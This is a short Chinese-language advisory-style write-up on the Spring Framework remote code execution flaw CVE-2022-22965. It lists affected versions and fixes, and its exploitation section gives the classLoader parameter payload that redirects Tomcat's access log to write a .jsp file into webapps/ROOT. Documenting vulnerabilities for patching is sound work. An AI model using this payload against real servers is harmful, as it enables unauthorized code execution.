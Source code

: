 ### 一 漏洞描述
Spring framework，即Spring,是其他Spring全家桶的基础和核心：包括SpringMVC、SpringBoot、SpringCloud、SpringData、SpringSecurity。
Spring由Rod Johnson创立，2004年发布了Spring框架的第一版，其目的是用户简化企业级开发的难度和周期。

2022年3月31日，VMware发布安全公告，修复了Spring Framework中的远程代码执行漏洞（CVE-2022-22965）。在 JDK 9 及以上版本环境下，可以利用此漏洞在未授权的情况下在目标系统上写入恶意程序从而远程执行任意代码(因可设置classLoader的属性)。

影响范围  
影响组件：org.springframework:spring-beans  
影响版本：< 5.3.18 和 < 5.2.20.RELEASE 的Spring框架均存在该漏洞  
JDK版本：JDK>=9  
部署方式：war包部署在TOMCAT中

### 二 漏洞利用
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=xxx& class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp& class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT& class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar& class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
``` 

### 三 漏洞修复
1 更新到Spring Framework 5.3.18和5.2.20或更高  
2 升级到Apache Tomcat 10.0.20, 9.0.62, or 8.5.78
3 回退到Java8
4 在WebDataBinder上全局设置disallowedFields来禁止对特定字段的绑定


> 参考链接
> https://blog.csdn.net/lj15559275886/article/details/121598440  
> 分析文章  CVE-2010-1622到CVE-2022-22965: https://segmentfault.com/a/1190000041764863
